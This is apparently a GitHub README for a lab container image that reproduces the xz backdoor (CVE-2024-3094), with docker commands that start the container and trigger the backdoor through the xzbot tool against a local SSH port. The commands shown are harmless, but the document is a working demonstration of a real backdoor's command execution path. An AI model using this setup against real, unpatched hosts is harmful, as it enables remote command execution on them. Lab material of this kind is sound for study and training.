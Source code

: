 # xz backdoor container image

A container image of [xz](https://tukaani.org/xz-backdoor/) backdoor ([CVE-2024-3094](https://nvd.nist.gov/vuln/detail/CVE-2024-3094)) based on an amazing work from [@amlweems](https://github.com/amlweems)'s [xzbot](https://github.com/amlweems/xzbot) project that can be run on both *x86_64* and *Apple Silicon* (via QEMU or rosetta).

> THIS IS FOR LEARNING PURPOSE ONLY!

## Demo
![xz-backdoor demo](.github/demo.gif)

## Getting started

### Prerequisites

* [docker](https://www.docker.com/) or [podman](https://podman.io/docs/installation).
* Read [xzbot](https://github.com/amlweems/xzbot)'s documentation.

### Usage
**1. Start the container image**

> [!IMPORTANT]
> The `--privileged` option is required in order to start `systemd` as PID 1.

```sh
docker run --rm -it -d \
  --privileged \
  --name xz-backdoor \
  --platform linux/amd64 \
  ghcr.io/rezigned/xz-backdoor-container-image:latest
```
**2. Run a command via `xzbot`**

> [!NOTE]
> The ourput of the default command (`id`) is redirected to `/tmp/.xz`.
>
> See https://github.com/amlweems/xzbot for more details.

```sh
# default command `id > /tmp/.xz`
docker exec -it `docker ps -f name=xz-backdoor -q` ./xzbot -addr "127.0.0.1:22"

# custom command
docker exec -it `docker ps -f name=xz-backdoor -q` ./xzbot -addr "127.0.0.1:22" -cmd "uname -a > /tmp/.xz"
```

## Acknowledgements
* https://edofic.com/posts/2021-09-12-podman-m1-amd64/
* https://github.com/amlweems/xzbot
* https://www.openwall.com/lists/oss-security/2024/03/29/4
